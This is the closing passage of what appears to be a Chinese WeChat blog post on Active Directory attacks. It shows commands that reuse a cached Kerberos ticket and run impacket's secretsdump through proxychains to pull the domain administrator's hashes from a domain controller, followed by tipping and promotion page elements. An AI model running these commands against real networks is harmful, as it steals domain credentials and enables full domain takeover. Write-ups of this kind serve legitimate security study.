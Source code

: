 export KRB5CCNAME=AD02\$\@XIE.COM_krbtgt~xie.com\@XIE.COM.ccaches  

proxychains4 -q python3 secretsdump.py -k -no-pass AD01.xie.com -just-dc-user
administrator

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182641.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182611.png)END

如果想跟我一起讨论，那快加入我的知识星球吧！https://t.zsxq.com/7MnIAM7

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210823182643.png)

  

![]()

谢公子

![赞赏二维码]() **微信扫一扫赞赏作者** 赞赏

已喜欢，[对作者说句悄悄话](javascript:;)

取消 __

#### 发送给作者

发送

最多40字，当前共字

[](javascript:;) 人赞赏

上一页 [1](javascript:;)/3 下一页

长按二维码向我转账

受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读原文

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)
